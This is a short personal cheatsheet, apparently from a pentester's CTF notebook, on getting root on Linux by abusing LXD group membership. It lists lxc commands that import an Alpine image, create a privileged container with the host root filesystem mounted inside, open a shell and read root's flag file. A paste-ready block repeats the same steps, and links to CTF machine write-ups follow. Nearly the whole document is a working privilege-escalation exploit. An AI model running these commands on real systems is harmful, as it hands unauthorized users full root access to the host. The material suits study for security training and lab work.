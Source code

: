 ```yaml
---
title: Cheatsheet - LXD Group
categories: [Cheatsheet, Linux Privilege Escalation]
tags: [linux-priv-esc/lxd, cheatsheet/linux]
---
```


# LXD
1. Import [alpine image](https://github.com/saghul/lxd-alpine-builder)
	```
	init lxd
	lxc image import ./alpine.tar.gz --alias privesc
	```
2. Initalize/start a container from that image
	```
	lxc init privesc privesc-container -c security.privileged=true
	```
3. Add a mounted file system to the mnt directory of the container
	```
	lxc config device add privesc-container mydevice disk source=/ path=/mnt/root recursive=true
	```
4. Start container
	```
	lxc start privesc-container
	```
5. Execute the container and get an interactive shell
	```
	lxc exec privesc-container /bin/sh
	```
6. Path to /mnt for the entire target file system
	```
	cd /mnt 
	# root dir
	cd /mnt/root
	```
	
# Paste this
```
lxc image import ./alpine.tar.gz --alias privesc
lxc init privesc privesc-container -c security.privileged=true
lxc config device add privesc-container mydevice disk source=/ path=/mnt/root recursive=true
lxc start privesc-container
lxc exec privesc-container /bin/sh
cat /mnt/root/root/root.txt
```

# Some Examples:
- [[Game Zone#Privilege Escalation with LXD group]]
- [[Anonymous]]
- [[INFOSEC PREP - OSCP#Privilege Escalation 2 via LXD group]]
- [[LXD Group]]
- [[BrainFuck.md#Root - Via LXD]]

